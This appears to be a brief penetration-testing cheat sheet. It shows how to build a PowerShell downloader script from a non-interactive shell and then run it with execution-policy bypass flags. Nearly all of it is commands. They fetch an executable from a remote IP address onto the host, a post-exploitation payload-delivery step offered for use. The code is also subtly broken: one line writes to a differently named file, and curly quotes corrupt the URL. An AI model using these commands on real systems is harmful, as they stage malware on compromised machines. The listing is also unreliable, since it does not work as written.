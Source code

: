 # powershell

## Quick How To

* cannot Powershell.exe with a non-interactive shell
* therefore, create a Powershell script then execute it

```bash
echo $storageDir = $pwd > wget.ps1
echo $webClient = New-Object System.Net.Webclient >> wget.ps1
echo $url = “[http://192.168.1.101/file.exe”](http://192.168.1.101/file.exe%E2%80%9D) >> wget.ps1
echo $file = “output-file.exe” >> wget1.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1
```

* now, invoke the script

```bash
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

